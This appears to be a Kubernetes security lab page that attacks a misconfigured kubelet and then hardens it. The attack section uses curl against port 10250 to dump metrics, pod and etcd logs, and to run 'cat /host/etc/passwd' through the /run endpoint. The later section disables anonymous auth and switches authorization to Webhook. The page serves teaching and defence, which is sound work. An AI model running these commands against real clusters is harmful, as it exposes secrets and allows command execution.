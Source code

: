 # Kubelet

## Attack

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Preparations
```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# store the external IP of the worker node
export IP=$(gcloud compute instances list --format json | jq .[].networkInterfaces[].accessConfigs[].natIP | tr -d \")
```

### Getting sensitive data from the kubelet

```bash
# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Avoiding the Attack

### SSH into the VM
```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### vi the kubelet config
``` bash
vi /var/lib/kubelet/config.yaml
```

### Fix Authentication

```yaml
...
authentication:
  anonymous:
    enabled: true # <= change to false
...    
```

### Fix Authorization

```yaml
...
authorization:
  mode: AlwaysAllow # <= change to Webhook
...  
```

### Restart the kubelet

```bash
systemctl restart kubelet
```

### Verify kubelet is now save again

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# try to attack the kublet atain - now you will get an `Unauthorized` response
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```
